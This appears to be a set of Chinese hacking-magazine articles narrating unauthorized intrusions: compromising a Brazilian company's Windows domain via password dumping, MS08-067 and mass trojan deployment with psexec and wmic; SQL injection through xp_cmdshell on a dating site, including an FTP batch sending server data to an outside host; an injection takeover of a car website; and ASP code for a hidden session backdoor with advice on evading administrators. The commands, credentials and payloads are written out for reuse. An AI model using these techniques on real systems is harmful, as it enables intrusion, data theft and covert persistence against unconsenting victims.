C:\>net group "domain admins" /domain
The request will be processed at a domain controller for domain abimaq.local.

Group name     Domain Admins
Comment        Designated administrators of the domain

Members
--------------------------------------------------
administrator  alfredos  Andreassa
ahbert         emadrina  crianzita
crmaster       Douglad   leonardra
MonitorMagicSvcAccount  Pinia  xafniels
Ricardo        SS        waldirj

The command completed successfully.
```

域用户可通过 `/domain` 命令获取。获取了上面的信息之后还是先别着急进行攻击，要真正渗透一个内网需要获取的信息还有很多。

再来刺探一下内网的机器分布状况。执行 **net view** 命令，列出内网中的计算机，如图 5。

由计算机名跟备注往往容易看出此计算机的用途，图中我做了相关注释。例如计算机名为 **abimaq01** 这个机器，备注为 **servidor master ad**，以这个命名看，估计这台就是域服务器了。

| server name | remark |
|---|---|
| \\abimaq01 | servidor master ad 管理服务器 |
| \\abimaq11 |  |
| \\abimaq6 |  |
| \\abimaq07 |  |
| \\abimaq_backup | file server abimaq 文件服务器 |
| \\abimaq_siemens |  |
| \\abimaqerp | servidor erp ERP 服务器 |
| \\abimaqweb | servidor www 这个才是网站服务器 |
| \\abiagusus | abimaqsus |
| \\agri_abbud | agri_abbud 备份服务器 |
| \\backup2 | backup2 |
| \\ctjct_anne | ctjct_anne |
| \\defe_rafael | defe_rafael |
| \\defe_terceiro | defe_terceiro |
| \\defe_terceira | defe_terceiro |
| \\deli_junior | deli_junior |
| \\deti_adriano | deti_adriano |
| \\deti_alfredo |  |
| \\deti_gradeli |  |
| \\deti_marco1 | deti_marco1 |
| \\dia_ideprario | dia_ideprario |
| \\imprensa_vaness | imprensa_vaness |
| \\ucrm | ucrm |
| \\vcrna | vcrna |
| \\vdb2 | vdb2 数据服务器 |
| \\vserver1 | vserver1 |

```text
C:\WINNT\system32>cls
C:\WINNT\system32>net user /domain
The request will be processed at a domain controller for domain abimaq.local.

User accounts for \\abimaq01.abimaq.local

--------------------------------------------------
...（大量域用户列表）
administrator  adriantan  alfredos  Andreassa  arianeh  ASSINA  attendente
...
The command completed successfully.
```

一般情况下，域服务器跟 DNS 服务器都是同一台机器，这里我们来验证一下，用 **nbtstat** 命令，执行 **nbtstat -a abimaq01**，如图 6，是在本机截取的。

如果命令执行成功的话，就可以通过计算机名获取相应 IP。除了 **nbtstat** 命令之外，其实 **ping** 命令也可以实现这个功能，执行 **ping abimaq01** 即可，如图 7。

```text
C:\WINNT\system32>nbtstat -a WM-482C23670FC

本地连接:
Node IpAddress: 192.168.0.100 Scope Id: []

NetBIOS Remote Machine Name Table

Name               Type   Status
-------------------------------------
WM-482C23670FC<00> UNIQUE Registered
WORKGROUP<00>      GROUP  Registered
WM-482C23670FC<20> UNIQUE Registered
WORKGROUP<1E>      GROUP  Registered
WORKGROUP<1D>      UNIQUE Registered
__MSBROWSE__<01>   GROUP  Registered

MAC Address = 08-11-2F-45-73-AA
```

```text
C:\WINNT\system32>cls
C:\WINNT\system32>net view /domain

Domain
----------------
ABIMAQ

The command completed successfully.
```

再来看看这个内网中到底存在多少个域，要是处于多域状态，渗透是比较麻烦的。再执行 **net view /domain** 命令，看看这个内网存在多少个域，如图 3，从结果可知，这个内网只有 ABIMAQ 这个域。

```text
C:\WINNT\system32>ping abimaq01

Pinging abimaq01.abimaq.local [172.16.16.2] with 32 bytes of data:

Reply from 172.16.16.2: bytes=32 time<10ms TTL=128
Reply from 172.16.16.2: bytes=32 time<10ms TTL=128
Reply from 172.16.16.2: bytes=32 time<10ms TTL=128
Reply from 172.16.16.2: bytes=32 time<10ms TTL=128

Ping statistics for 172.16.16.2:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

我们现在很容易看出 **abimaq01** 的 IP 就是 **172.16.16.2**，这里只能说明这个是 DNS 服务器。要证明 DNS 服务器跟域服务器是不是同一台机器，还需要执行 **ping abimaq.local** 命令判断域服务器的 IP 地址，如图 8。

通过返回信息可知，这里的 DNS 服务器跟域服务器是同一台机器。现在再回过头来看看这台机器与内网中的哪些机器通讯，执行 **arp -a**，如图 9。

这里有些朋友就会问：为什么要获取这些计算机的列表呢？当然，你也可以不获取，但是我个人认为还是有这个必要的，有些机器用 **net view** 列不出来，也不能 **ping**，那你就无法判断它是否存在了。但是要是那台机器与本机有通讯的话，用 **arp -a** 命令就能查出这个机器。机器，重复上线了，如图15。这下可郁闷了！于是想尝试一下利用 ms08-067 对其他机器进行溢出。先上传 S 扫描器上去，扫描开放 445 端口的机器，执行 `s.exe tcp 172.16.16.2 172.16.16.254 445 512 /save`，扫描结果如图16。

```bat
@echo off
(for /f %%a in (445.txt) do (MS08-067.exe %%a | find "Send Payload Over" && echo %%a>>yichu.txt))
exit
```

卡巴竟然杀了我的文件，上传去是免杀的，但是运行溢出程序就被杀了，真郁闷！并且用远程操作计算机不能把杀毒软件停止掉，我还是首次遇到这个情况。于是用 LCX 反弹出来，如图17、图18。

```text
远程执行：
lcx.exe -slave 123.116.113.25 51 172.16.16.139 3389

本地执行：
lcx.exe -listen 51 3389
```

结果反弹不出来，估计是路由器做了策略。至于我的远程为什么能连接，估计是因为我的木马配置是用的 80 端口，一般不会禁用这个端口通讯。无奈之下，只能把杀毒软件删除掉，当时我真是气死了。然后再用 ms08-067.exe 进行溢出，结果毫无收获，要不是打了补丁，就是把相关服务停止了。

如图10，再看看域服务器的共享，如图11。

既然域服务器有共享文件夹，我们可以查找可写目录然后给文件捆绑木马，这样就能控制其他电脑了。尝试把 DC 上的共享文件夹映射到本地 F 盘，试着建立一个文件夹，提示没有权限，如图12。

一般都是没权限的，有些目录有权限写，但是那些没有用途，只是对当前用户有效，就是域服务器给这些用户分配的。上传抓 HASH 工具抓本地 HASH，然后通过彩虹表破解其密码，得到账号密码为 `km3h7i`。

得到上面的信息是非常有用的，既然已经知道域管理员存在一个 administrator 账号，这里就用 psexec.exe 和 gsecdump.exe 抓取 HASH。

执行 `psexec.exe -s -u administrator -p km3h7i \\172.16.16.2 -c c:\kav\gsecdump.exe -u`，如图13，抓 HASH。

ABIMAQ\Administrator 密码，k78m90  
ABIMAQ\MonitorMagicSvcAccnt 密码……HS58Y7  
ABIMAQ\ABIMAQ6$ 破解失败

既然得到密码，就让它执行远程木马：`psexec.exe -s -u administrator -p k78m90 \\172.16.16.2 -c c:\kav\2009.exe`，结果如图14。

这下奇怪了，上线的不是 172.16.16.2，而是执行命令的那台机器，重复上线了，如图15。

搞这个域服务器真是不容易啊，一般内网入侵用得最多的就是 `net use` 命令，这里还是用它。执行 `net use \\172.16.16.2\IPC$ "k78m90" /user:"administrator"` 建立 IPC$ 连接，结果提示 1219 错误，如图19。

> 错误号分析原因：
>
> 错误号 5，拒绝访问：很可能你使用的用户不是管理员权限的，先提升权限；
>
> 错误号 51，Windows 无法找到网络路径：网络有问题；
>
> 错误号 53，找不到网络路径：IP 地址错误；目标未开机；目标 lanmanserver 服务未启动；目标有防火墙（端口过滤）；
>
> 错误号 67，找不到网络名：你的 lanmanworkstation 服务未启动或者目标删去了 IPC$；
>
> 错误号 1219，提供的凭据与已存在的凭据集冲突；
>
> 已存在的凭据集冲突：你已经和对方建立了一个 IPC$，请删除再连；
>
> 错误号 1326，未知的用户名或错误密码；原因很明显了；
>
> 错误号 1792，试图登录，但是网络登录服务没有启动；目标 NetLogon 服务未启动；
>
> 错误号 2242，此用户的密码已经过期；目标有账号策略，强制定期要求更改密码。

既然提示要先删除现有的 IPC$ 连接再连，就执行 `net use * /del /yes` 把全部连接删除吧。再次执行 `net use \\172.16.16.2\IPC$ "k78m90" /user:"administrator"` 又提示错误号 1312，这下可更加郁闷了。

经验告诉我们，错误号 1312 是权限不够造成的。继续执行 `net use \\172.16.16.2\IPC$ "k78m90" /user:"ABIMAQ\Administrator"` 命令，如图20，终于成功了。

细心的朋友可能会发现上述两句命令中的用户不同，为什么不同会导致两个结果呢？在此前请教 LCX 大牛，得知某些域需要添加域名，有些则不需要。接下来就好办了，就是复制木马过去执行，命令为：`copy 2009.exe \\172.16.16.2\admin$`，如图21。

接着用 `net time \\172.16.16.2` 命令看看一下远程机器的时间，如图22，准备用 AT 命令计划一个任务让远程机器运行木马。

于是执行 `at \\172.16.16.2 1:40 2009.exe` 命令在远程机器建立一个任务，如图23。等了几分钟都上线不了，有可能是复制过去不成功，也有可能被杀，同样也有可能是任务没有执行。

结果查看任务，还在处理中，没有执行，这是因为执行时间还没有到，搞错了时刻！建议还是用 24 小时制来操作，这样就不会错了。继续执行 `at \\172.16.16.2 13:50 2009.exe` 命令就能上线了。现在拿下域服务器了，肯定也要控制其他机器才过瘾。习惯上执行 `arp -a` 命令看看本计算机会话情况，如图24。

结果真的吓一跳，不单单是 172.16.16.X 这段，还有 172.16.18.X、172.16.19.X、172.16.20.X，内网可真不小啊！

要逐台种植木马是很费劲的事情，这里可以考虑修改域服务器配置文件，这样每当用户登录时就加载木马，方便多了。但是这样有一个弊端，就是容易被发现。加上我也不知道怎么修改配置文件，哈哈，放弃！希望知道的兄弟告诉我一下啊。

这里我还是使用 psexec.exe 批量执行木马，命令：`psexec.exe @pc.txt -u ABIMAQ\Administrator -p k78m90 -c c:\kav\2009.exe`，这样就可批量操作了。

这命令的意思是读取 pc.txt 文件里面存放的 IP，然后分别复制 `c:\kav\2009.exe` 到远程计算机中运行。如何寻找在线主机呢？其实用 ping 命令就能获取，可以把如下代码保存成批处理运行即可：

```bat
@echo off
set "ip=172.16.18"
@for /l %%a in (1,1,254) do (ping -n 1 -w 1 %ip%.%%a | find "Reply from" >> scan.txt)
set "ip=172.16.19"
@for /l %%a in (1,1,254) do (ping -n 1 -w 1 %ip%.%%a | find "Reply from" >> scan.txt)
set "ip=172.16.20"
@for /l %%a in (1,1,254) do (ping -n 1 -w 1 %ip%.%%a | find "Reply from" >> scan.txt)
exit
```

运行之后将会把在线机器的 IP 写入到 scan.txt 文件，然后把其中的 IP 列表保存成 pc.txt，这样就很方便地进行批量种植木马了，如图25。至此，内网中的部分服务器都被我种植上木马了，这下爽死了！

总结：在渗透此内网过程中遇到很多问题，大概有以下几点需要注意：

- 1. 使用 psexec.exe 时，不带 `-c` 参数（即复制到远程计算机中）的话，很多时候会执行不成功的。我这里测试了两台，一定要带这个参数才能成功。
- 2. 要是一些小程序被杀了，可以尝试一下伪造数字标签，看看能否免杀（主要是针对卡巴的）。
- 3. 使用 `net use` 时遇到错误，查看一下这个错误号代表什么意思，对渗透很有帮助的！
- 4. 过程中我使用上兴远程的命令行操作，但是由于软件的 bug 问题使我走了很多弯路，因为这个命令行中限制了执行语句的长度，如果语句过长就自动分成两句执行。之所以上面机器重复上线，就是因为那一个语句被分成两个语句来执行了，最终就是在本地执行了木马。还有一个就是远程种植木马也是同样的问题，我开始一直以为是 psexec.exe 的问题，但是后来我把语句保存成批处理然后再运行就能种植成功，软件的 BUG 真是搞死人啊，这个问题误导了我一个晚上，强烈鄙视上兴。
- 5. 其中还遇到一个问题，就是在建立了 IPC$ 连接之后，肯定是用 AT 命令执行程序吧，但是对方的 AT 命令被禁用了，而不是停止或者暂停，这里就没有办法开启了吗？我没有研究出来，要是停止或者暂停的情况下，我们还可以通过 `psservice.exe \\172.16.16.7 -u ABIMAQ\Administrator -p k78m90 "Task Scheduler"` 命令把其启动。要是禁用了，大家还有什么方法呢？
- 6. 第一次运行 psexec.exe 可以带 `/accepteula` 参数防止弹出确定的界面。
- 7. 要远程执行程序，还可以通过 wmic 命令，如：`wmic /node:172.16.19.96 /user:ABIMAQ\Administrator /password:k78m90 process call create c:\kav\2009.exe`

# 艰难渗透

# 某交友网

图守龙

> **编辑点评：** 域内网的一般渗透步骤也就是这样了，剩下的就是细节的注意了。作者在渗透的过程中和我有相关交流，当时我还一直以为 psexec 执行命令是没有回显的，还质疑了一下作者的 psexec 用法。仔细想一下，倒是自己自以为是的经验害死人。因为我以前一直是用 psexec 执行木马，没有执行过别的东西，以为只是返回结果序号，还是不回显的。另外，作者文章中的章节总结也非常好，如果长期这样坚持，必定会取得进步。
>
> 用本文复习一下手工的 asp+mssql 注入吧！

最近有些无聊，于是跑去交友网站找 MM 聊天，想不到注册了之后还有诸多限制，连 QQ 号码都不提供，那就不用说电话号码、身份证号码了。现在的人真是会赚钱啊，需要注册什么 VIP 会员才有权限查看。我可是穷孩子，没这个闲钱，还是自己动手把数据要回来吧，所以就有了此文。

随便打开一个链接，`http://www.xx.com/xxview.asp?ThreadID=345`，在其后面加上 `cos(0)`，返回错误页面，接着测试 `and 1=1` 返回错误，`and 1=9` 同样返回错误。看来注入是没戏啦。

登录会员页面看看有没有上传之类的地方，以前搞交友类网站很多都存在上传漏洞的。找到图片上传的地方，尝试上传图片格式的一句话木马 `123.asp;.gif`，上传成功后发现被自动以日期命名了，也就是说不能利用 IIS6 的解析漏洞。接着继续尝试了其他上传漏洞，都不奏效。

像这样的网站，除了注入跟上传之外，好像没啥好利用的了。继续看着能否找到注入点吧，记得以前一个交友网站也是从搜索那里进入的，这个也不例外，尝试是否存在搜索型注入。

在搜索框中输入单引号提交，出现如图1的错误界面。

当时心中窃喜，说明此站存在注入漏洞，估计很快就能拿下 webshell 了。继续提交 `%' and user=0--`，结果返回空白。这下奇怪了，重新打开页面继续提交，出现的结果如图2，DBO 的权限，爽死了！

再来看看系统版本，提交 `%' and @@version=0--`，出现的结果如图3。

原来是 MSSQL2000 的，那更加好办。再来看看是否数据分页吧，虽然只想获取 MM 资料，但是有机会把服务器拿下也是不错的。

提交 `%' or host_name()+char(124)+@@servername>0--`，发现搜索框限制了搜索的长度，这个我们可以尝试把页面保存到本地提交。

依次选择“浏览器”－“文件”－“页面另存为”，把这个页面保存为 Usersearch.asp.htm，然后用写字板找到“搜索”关键字，原来搜索长度被限制为 20 了，如图4。

这里把 20 随便修改成一个比较大的数，接着提交输入框就能完整地输入注入语句。但是提交的时候又出错，提交不上去，如图5。

既然本地提交不行，我们还可以借助第三方软件直接修改提交。这里尝试一下火狐的一个插件 Firebug，它能直接修改文本框的长度。

把光标移到搜索框中，然后按鼠标右键选择“查看元素”，如图6，Firebug 就会转到相应的代码行，如图7。

> 这个插件有一个缺陷：就是每次都需要修改，然后提交，有点麻烦！

这里只要将 `maxlength` 后面的 20 修改成 999。修改后发现上面的搜索框能输入注入语句了，提交 `%' or host_name()+char(124)+@@servername>0--` 之后发现数据库跟 Web 是同一主机，如图8。

这里的 `host_name()` 是获取 Web 主机名的函数，`@@servername` 是获取数据库服务器名的函数，`char(124)` 的意思就是把返回的结果隔开。如果返回两个一样的，就是代表没有分离；反之则 Web 与数据库分离了。

刚才爆出的是 db 用户，但是还不知道有没有被降权，先来确定一下这个用户的权限，提交 `%'' and 1=(select IS_SRVROLEMEMBER('sysadmin'))--`，得到正常的搜索页面，如图9，也就是说这个用户是 SA 权限的。既然是 SA 权限，大家估计会想没有必要再写下去了吧？但是后面会出现很奇怪的情况。

既然是 SA 权限，要是管理员没有删除 `xp_cmdshell`，就能执行 CMD 命令。来判断一下，提交 `%'' and 1=(SELECT count(*) FROM master.dbo.sysobjects WHERE xtype='X' AND name='xp_cmdshell')--`，同样返回正常的搜索页面，看来我 RP 还真是不错，`xp_cmdshell` 存在，添加用户开 3389 也可以收工咯。

之前先 telnet 一下对方的 3389 端口是否开放，结果对方 3389 端口无法连接。这时就会想，会不会是管理员修改了远程终端的端口呢？

还是先收集一下服务器的信息吧，执行语句：`%';drop table cmd;create table cmd(c nvarchar(2000));insert into cmd(c) exec master..xp_cmdshell 'ipconfig'--`，然后通过 `openrowset` 把数据传到远程服务器中，提交：`%';insert into openrowset('sqloledb','server=119.4.137.223,1433;uid=db;pwd=123456!','select c from cmd') select c from cmd--`。结果真是令人伤心啊，竟然收不到数据。

这真见鬼了，正所谓“条条大路通罗马”，方法总是有的。我们尝试一下调用 CMD 获取服务器的一些信息，然后通过 FTP 上传到我的服务器上。

正常的 FTP 上传代码是这样的：

```bat
@echo off
ipconfig /all >11.txt
set >>11.txt
echo open 125.33.177.242>ftp.txt
echo hack>>ftp.txt
echo hack>>ftp.txt
echo binary>>ftp.txt
echo put 11.txt>>ftp.txt
echo bye>>ftp.txt
ftp -s:ftp.txt
del ftp.txt
del 11.txt
```

然后就是需要把这段代码 echo 成一个批处理文件，转换后如下：

```bat
echo @echo off > c:\run.bat
```

```text
echo net user > c:\11.txt >> c:\run.bat
echo ipconfig /all >> c:\11.txt >> c:\run.bat
echo set ^>>c:\11.txt >> c:\run.bat
echo echo open 125.33.177.242 ^>ftp.txt >> c:\run.bat
echo echo hack ^>>ftp.txt >> c:\run.bat
echo echo hack ^>>ftp.txt >> c:\run.bat
echo echo binary ^>>ftp.txt >> c:\run.bat
echo echo put 11.txt ^>>ftp.txt >> c:\run.bat
echo echo bye ^>>ftp.txt >> c:\run.bat
echo ftp -s:ftp.txt >> c:\run.bat
echo del ftp.txt >> c:\run.bat
echo del c:\11.txt >> c:\run.bat
```

这样一条一条地执行肯定要累死，其实可以用 `&` 把这些语句连成一句来执行：

```text
%';Exec master..xp_cmdshell 'echo @echo off > c:\run.bat&echo net user > c:\11.txt >> c:\run.bat&echo ipconfig /all ^>> c:\11.txt ^>> c:\run.bat&echo set ^>> c:\11.txt >> c:\run.bat&echo echo open 125.33.177.242 ^>ftp.txt >> c:\run.bat&echo echo hack ^>>ftp.txt >> c:\run.bat&echo echo hack ^>>ftp.txt >> c:\run.bat&echo echo binary ^>>ftp.txt >> c:\run.bat&echo echo put 11.txt ^>>ftp.txt >> c:\run.bat&echo echo bye ^>>ftp.txt >> c:\run.bat&echo ftp -s:ftp.txt >> c:\run.bat&echo del ftp.txt >> c:\run.bat&echo del 11.txt >> c:\run.bat'--
```

语句执行后搜索页面返回正常，接着执行：`%';Exec master..xp_cmdshell 'start c:\run.bat'--`，又出现问题了，浏览器卡在那里不动，过了好几分钟后提示延时。这是怎么回事呢？难道 echo 不进去？还是 FTP 服务器接收不到相应的文件？这下子纳闷了。

在本地执行 NC 监听：`nc -vv -l -p 21`，搜索框中提交：`%';Exec master..xp_cmdshell 'telnet 125.33.177.242 21'--`，结果也是出乎意料，内网机器连接不上我的机器。

这里是不是管理员限制了呢？再次陷入困境！于是乎请教一下无名小卒，他说 Adsutil.vbs 能解决我这个问题。这里我先尝试建立一个名为 chilong 的虚拟目录，路径指向 c 盘，然后把该目录改成可写，接着上传 webshell 上去，提交如下语句：

```text
%';Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\Adsutil.vbs CREATE w3svc/1/Root/chilong IIsWebVirtualDir'--

%';Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\Adsutil.vbs SET w3svc/1/root/chilong/Path "C:\"'--

%';Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\Adsutil.vbs SET w3svc/1/Root/chilong/AccessRead 1'--

%';Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\Adsutil.vbs SET w3svc/1/Root/chilong/AccessWrite 1'--

%';Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\Adsutil.vbs SET w3svc/1/Root/chilong/AccessScript 1'--

%';Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\Adsutil.vbs SET w3svc/1/Root/chilong/EnableDirBrowsing 1'--

%';Exec Master..Xp_CmdShell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\Adsutil.vbs SET w3svc/1/Root/chilong/AccessSource 1'--
```

语句执行后，但是访问该目录提示出错。貌似这个方法对 Windows 2003 的成功几率不大。建立虚拟目录不成，还可以利用 Adsutil.vbs 获取 web 路径，依次提交下面的代码：

```text
';drop table cmd-- // 删除 CMD 表
';create table cmd(line varchar(2000),id int identity)-- // 创建 CMD 表，里面包含 line 和 id 两个列
';insert into cmd(line) exec master..xp_cmdshell 'Cscript.exe %SystemDrive%\Inetpub\AdminScripts\Adsutil.vbs ENUM /P W3SVC/'-- // 把 Adsutil.vbs 获取的数据插入到 cmd 表中
```


然后就是爆里面的内容了，提交 `'or(select line+char(124) from cmd where id=1)>0--`，没有爆出内容来。理论上是没有错的，但是为什么爆不出来呢？突然发现 or 跟 and 的特性，如果用 or 的话，要是前面的结果为真，就不能爆错了。改用 and 就行了，提交 `and(select line from cmd where id=1)+char(124)>0--`，返回信息如图 11。

接着当然就是把 ID 递增 1 后提交了，继续提交：`'or(select line+char(124) from cmd where id=2)>0--`、`'or(select line+char(124) from cmd where id=3)>0--`，直至提交到了 7 才把全部数据爆出来，如图 12、图 13。这里爆出网站对应的 id 为 1851609758、1461236908、419037184。然后再将相应的 ID 转变成网站路径，继续提交：

```text
';drop table cmd--
';create table cmd(line varchar(2000),id int identity)--
';insert into cmd(line) exec master..xp_cmdshell 'cscript.exe %SystemDrive%\inetpub\AdminScripts\adsutil.vbs GET w3svc/1/461236908/root/path'--
```

这里的意思就是获取 id 为 1461236908 的网站路径。还是依次递增 ID，提交 `'and(select line from cmd where id=1)+char(124)>0--`，爆里面的内容，结果爆出 ID 为 1461236908 的网站路径是 `D:\jiaoyou`。然后 echo 一句话木马到网站目录，终于拿到 webshell 啦，如图 14，真是几经波折啊。

本来还想渗透内网的，但是最近国内这么紧张还是算了，免得惹上什么麻烦就不好啦，点到即止！

> 编辑点评：作者在用 Adsutil.vbs 建虚拟目录的时候存在一个错误，如果是虚拟主机，使用命令：`Adsutil.vbs CREATE W3SVC/1/Root/chilong "IIsWebVirtualDir"` 的话不一定会成功，因为你不一定清楚 W3SVC/1 下对应的是哪一个网站。另外 Adsutil.vbs 有一个很好用的方法，可以查出 IIS 虚拟主机的 IIS 密码，查出之后你想可以做什么？呵呵。

# 一次由投票引发的网站入侵完整过程

本文描述了基本的渗透入侵过程。

一次 QQ 上的 MM 好友发来一个链接，叫我帮忙投下票。在进行了几次投票后，系统提示达到了今天投票的次数，不能再继续进行投票，于是我就产生了邪恶的想法，何不 XX 了它（偶不是禽兽）。当然，此次入侵只是以练手为目的，不是进行破坏。

现在进入正题，打开某某汽车网主站（http://www.**car.com/），随便选择一个链接 `http://www.**car.com/news/news_view.asp?id=3443`，在后面加个单引号，弹出如图 1 的提示。

一看就是典型的防注入系统。好了，请出 hwis 对整个网站爬行一下，看有没有可用的 cookie 注入点。个人比较喜欢红狼论坛出品的这个小工具，可以对一个网站爬行并找出各种类型的注入点。在大约过了半分钟后，结果出来了，如图 2。

当然工具总会有误报，我们找到的三个 post 注入点其实无法进行 post 注入。另外我用 Safe3WVS1.0 进行了 cookie 类型注入点扫描，得到的结果如图 3。

既然找到了 cookie 注入点，那就进行下一步，中转注入！个人认为还是中转注入成功率高一点。随便选取一个注入点，这里用 `http://www.**car.com/yw2sc/car.asp?id=401`。我们把地址填入 cookie 注入中转生成器中，生成一个 `jmcook.asp` 文件，配置如图 4。

在本地用迷你 ASP 服务器 1.5 架设 ASP 运行环境，把 `jmcook.asp` 放入 web 目录，然后把 `http://127.0.0.1/jmcook.asp?jmdcw=401` 放入啊D进行注入，很快就检测出注入点。接着检测出表段（login、config、user），在对字段进行内容猜解的时候，新的问题出现了，提示“检测指定内容长度失败”。其实这个是服务器字段内容不被啊D支持的原因，比如有些中文内容在啊D猜解的时候往往会失败。

当然，pangolin 可以对付这种情况，我们对其中一个 login 字段进行内容猜解，得到如图 5 的内容。

接下去当然是拿到账户登录后台。在网址后面加个 admin，出现 `http://www.**car.com/admin/login/index.asp?u=/admin/index.asp` 登录页面，可是现实又一次打击了我，不管怎么样的用户/密码组合都无法登录，不是提示用户名不存在就是密码错误（其实后来才知道，管理员字段压根就不存在这个数据库里）。其他字段我也全部试过，都不能成功登录后台。


从之前工具给出的提示我们知道，网站采用的是 ACCESS 数据库，这时候主站已经无法继续入侵下去，突然想到了旁注。不过在 `http://www.114best.com/ip/114?w=www.**car.com` 查询的时候，发现此服务器上面就只有这一个网站，这个时候很多人可能想到了放弃。

冷静思考片刻，打开后台地址，一开始便觉得这个后台地址有点特别，可能后台就是一个突破口。在用户名处输入 `admin'1=1--`，密码随便填，可以看到报错了，如图 6。也就是说存在注入点，而且根据错误内容可以看出是 MSSQL 数据库，这下有戏了。


这种注入点在新版的 pangolin 下可以很方便地利用，当然 NBSI 应该也可以，不过得抓包。在 pangolin 的网址输入栏后面有个下拉选项，选择最后一项 “LoadFrom”，在出现的对话框中输入上面得到的后台地址 `http://www.*car.com/admin/login/index.asp`，点击 “Parse”（中文意思为：从语法上分析），可以看到获取到很多参数，可以把 form1 展开查看，如图 7。

然后点击 “Load” 进行载入，这样就可以进行注入攻击了，发现权限居然是 SA，如图 8。

这下真是峰回路转，直接在上面执行系统命令，发现可以执行，还开了 3389 端口。接下来当然是添加个用户列到管理员组，这样 3389 的整个服务器权限就拿到了，如图 9。

为了保险起见，我再给它种上一个免杀的远控，这样更方便管理。在翻看服务器的配置文件时，发现了用来连接数据库的明文账号和密码，到此整个网站的服务器和数据库彻底沦陷了。


> **编辑点评：**
>
> 这个文章中目标对象的账号猜解过程有些特殊，还好最后通过工具的组合和使用，最终顺利拿到服务器权限。

# 另类打造 Session 隐藏型后门

- 1. session 后门的原理分析
- 2. 如何隐藏后门

关于 Session 的具体原理、运行机制等，有兴趣的朋友们请自行百度，基于本文不涉及太深，我会把预备知识尽可能简单地写出来。

现在越来越多的网站都开放了注册功能，以增强客户体验、自主沟通，于是“会话保持”的使用也越发频繁。毕竟用户登录以后，你要产生个信息以证明身份，不然很多操作都实现不了。

Session 就属于“会话保持”的一种。我们访问任何一个 Session 认证的网站时，网站服务端就会分给你一个 SessionID 值。而当浏览器关闭时，保存在你本地的 SessionID 则被删除；但网站服务端却还残留着（IIS 默认保存时间是 20 分钟）。

后记录关键的那一段：`ASPSESSIONIDASCDCRAT=KCCPGPCKAOFNHDQIDAEDM`。嗯，很多直接打开的 URL 提示说“你还没有登录”等类似信息，经过粘贴以上那段关键代码（俗称 cookie），则可以正常打开，因为我们已经“欺骗”登录了喔（快点进入主题吧！）。

好，现在开始咱们这堂课的重点！既然是留后门，前提条件当然是我们已经拿到权限了（砖块袭来……）。WEBSHELL 已经登录，我们简单看看后台文件，后台有很多个连接，都有登录验证，即直接打开后台 URL 会自动转到登录页面。

我们任意打开一个后台管理文件，都可以看见 `<!--#include file=include/access.asp-->` 这样一段代码，很显然，`include/access.asp` 就是验证登录，代码如下：

```asp
<%
if session("adminlogin") <> "ok" then
    response.redirect "index.asp"
end if
%>
```

代码很简单，验证 session 中 adminlogin 是否等于 ok，如果不等于则跳到 `index.asp`。了解了这一段，我们来新建一个 ASP，取名为 `Name.asp`，代码为：`<% session("adminlogin") = "ok" %>`，即访问这个页面就在 session 中产生 adminlogin，并且设为 ok。

这样我们在浏览器里只要先打开 `Name.asp`，然后访问 `Manage.asp`，就直接登录后台了。**注意：访问的是后台管理页面，而不是登录页面。如果访问 Login.asp 这类登录页面，还是会要求填写账号密码，这就好像你本身登录了后台，又打开 Login.asp 非要再登录一次一样。**

懂得思考的朋友们马上就想说，`<% session("adminlogin")="ok" %>` 这段代码好短好短，跟一句话客户端差不多。那我们可以插入任意网站原有的 ASP 页面，然后访问后台，岂不是同样也能达到“免密码登录”的目的？

我的回答是：可以！但是（看见没有，但是来了）假设我们的同行朋友，恰巧访问了你插后门的 ASP 地址，之后又恰巧访问了后台管理，那他也不是同样“免密码登录”了呢（恰巧有鸡蛋丢过来……）？

由此，也就引出了本文的下节：“隐藏”。隐藏的意义不单单为解决被管理员发现的可能，也避免了同行“碰头”的抢夺。关于这块，借鉴的是前人的经验，也结合了自己的一些想法。

其实这也是我们学习的意义，相信很多购买黑客杂志、爱好黑客学习的朋友都想提升自己的技术，记住这点：学习要刨根问底，要把原理搞熟，这样才能灵活并且广泛地利用。

隐藏 ASP 木马我这里只介绍一种方法，此方法应用广泛，可以插入任意 ASP 文件，隐藏杀效高，代码也较精简。

```asp
<% if request["action"]=="ok" then %>
##############################
代码内容
<% end if %>
```

若将以上代码插入 `XXX.ASP` 后，在浏览器里直接输入 `XXX.ASP`，页面跟原来没有任何差别；但是如果我们输入 `XXX.ASP?action=ok`，则能看见 `######` 的信息了。

简单分析下，其实就是当触发了 `action=ok` 的语法之后，才会执行 `######` 命令；如果没有触发，则代码基本等于不存在。好，把“后门”和“隐藏”集合到一起，那代码应该是：

```asp
<% if request["action"]=="ok" then %>
<% session("adminlogin")="ok" %>
<% end if %>
```

至于怎么使用，我想大家应该都会了。但是（汗，又来了），再如何隐藏，也不能百分之百不被发现。既然是后门，命中注定它就被套上“存活期”一说（跟爱情没关系啊）。况且方法发布以后，很多的管理员一样能看见，杜绝的方法也就应时而生。

关于这点，我建议大家可以修改一些代码，比如 `action=ok` 可以弄成 `cnshell=log`，或者进行加密（不推荐，大家慎用吧，因为以上代码原来是不被查杀的，加密完以后，管理员在查看代码的时候，发现乱码肯定会给予删除的）。

另外，大家还可以刻意在代码里加入伪备注，以混淆管理员（好坏啊）。在有权限的条件下，修改文件的时间等等都是我的一些经验之谈，大家可以借用，但不要妄用、滥用，最好能自己独立出一些创意。有创意，才有新意。

好，文章就写到这里，感谢朋友们花时间阅读，希望对大家有所帮助（别客套了，该干嘛干嘛去！）。另外，在这里感谢《黑客手册》发表此文，祝销量大增！闪人……

> **编辑点评：** 文章有点碍于标题党的性质，其内容的开始足够诱惑，最后的解决方法让人会心一笑，真简单的原理。


从本文你可以了解到：

- 1. 跨站漏洞的基本危害
- 2. 跨站的基础

